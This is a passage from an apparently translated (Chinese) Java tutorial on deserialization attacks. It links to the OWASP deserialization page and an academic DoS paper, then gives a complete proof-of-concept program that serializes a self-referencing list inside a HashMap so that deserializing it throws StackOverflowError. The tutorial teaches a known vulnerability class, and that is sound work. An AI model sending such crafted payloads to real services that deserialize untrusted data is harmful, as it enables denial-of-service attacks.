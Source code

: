 **延伸阅读**

*   [邪恶泡菜:基于对象图工程的 DoS 攻击](http://web.archive.org/web/20220610024935/https://homepages.ecs.vuw.ac.nz/~alex/files/DietrichJezekRasheedTahirPotaninECOOP2017.pdf)
*   [OWASP–不可信数据的反序列化](http://web.archive.org/web/20220610024935/https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data)

### 7.1 反序列化和堆栈溢出

反序列化下面的字节流，它抛出`StackOverflowError`。

StackOverflowExample.java

```java
 package com.mkyong.io.object.attack;

import java.io.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class StackOverflowExample {

    public static void main(String[] args) {

        System.out.println(bomb().length);

        deserialize(bomb());  // throws StackOverflow

        System.out.println("Done");
    }

    static byte[] bomb() {
        HashMap map = new HashMap();
        List list = new ArrayList();
        map.put(list, "");
        list.add(list);
        return serialize(map);
    }

    public static byte[] serialize(Object o) {
        ByteArrayOutputStream ba = new ByteArrayOutputStream();
        try {
            new ObjectOutputStream(ba).writeObject(o);
        } catch (IOException e) {
            throw new IllegalArgumentException(e);
        }
        return ba.toByteArray();
    }

    public static Object deserialize(byte[] bytes) {
        try {
            return new ObjectInputStream(
                    new ByteArrayInputStream(bytes)).readObject();
        } catch (IOException | ClassNotFoundException e) {
            throw new IllegalArgumentException(e);
        }
    }

} 
```
